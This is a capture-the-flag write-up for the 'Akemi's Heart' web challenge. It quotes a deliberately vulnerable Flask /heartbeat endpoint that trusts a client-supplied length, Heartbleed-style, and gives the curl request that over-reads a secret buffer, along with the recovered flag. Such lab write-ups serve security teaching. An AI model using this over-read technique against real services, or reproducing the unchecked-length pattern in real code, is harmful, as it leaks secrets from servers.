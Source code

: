 # Akemi's Heart — Web
<img width="787" height="333" alt="Screenshot 2025-09-15 120024" src="https://github.com/user-attachments/assets/fce1f475-f0de-404b-8364-76c7ee4a7f4d" />

## TL;DR
The bug was the server trusting whatever `length` you send in JSON.  
Tiny payload + oversized length = secret buffer spill = flag.

<img width="791" height="614" alt="Screenshot 2025-09-15 120250" src="https://github.com/user-attachments/assets/6da94418-e2b9-4f65-a8b2-abf3d54e0dba" />

## Important Code

```python
FLAG_PATH = "/flag.txt"
secret_blob = secrets.token_bytes(512)
if os.path.exists(FLAG_PATH):
    with open(FLAG_PATH, "rb") as f:
        secret_blob += f.read()
else:
    secret_blob += b"GCTF25{fake}\n"
```
This builds a buffer of 512 random bytes followed by the contents of /flag.txt (the real flag).

```python
@app.route("/heartbeat", methods=["POST"])
def heartbeat():
    """
    Vulnerable heartbeat-like endpoint.
    Expects JSON: {"payload": "...", "length": <int>}
    """
    try:
        data = request.get_json(force=True, silent=True)
        if not data:
            raise ValueError("bad input")

        payload = data.get("payload", "")
        length = int(data.get("length", 0))

        if isinstance(payload, str):
            payload_bytes = payload.encode("utf-8", errors="ignore")
        else:
            payload_bytes = bytes(payload)

        extra_needed = length - len(payload_bytes)
        if extra_needed <= 0:
            resp = payload_bytes[:length]
        else:
            resp = payload_bytes + secret_blob[:extra_needed]

        r = make_response(resp)
        r.headers["Content-Type"] = "application/octet-stream"
        return r

    except Exception:
        return "💔 Ouch. My heart keeps bleeding", 400

```

Here’s the bug: the server blindly trusts length. If you ask for 8192 bytes but only send an empty string, it fills the rest with data from secret_blob. That means random junk plus the flag.

## Thought Process
The zip had `app.py`, and a quick look showed `/heartbeat` using `{"payload": "...", "length": <int>}`.  
The code did `extra_needed = length - len(payload)` and filled the gap with `secret_blob`.  
So I tried sending an empty payload with a huge length. At first the response was messy random bytes,  
but after filtering for `flag/CTF`, the actual flag appeared right after the junk.

## Exploit command
<img width="940" height="64" alt="image" src="https://github.com/user-attachments/assets/6da68724-4552-48c5-ba79-3729fb43ac6b" />

```bash
# oversize request, Windows CMD with findstr
curl -s http://host:port/heartbeat -H "Content-Type: application/json" -d "{\"payload\":\"\",\"length\":8192}" | findstr /i "flag CTF GCTF"
```
## Flag found

```flag
GCTF25{aK4mI_H3ARTY_tl$SU3_saD_so_$AD_c1737cad162e}
```



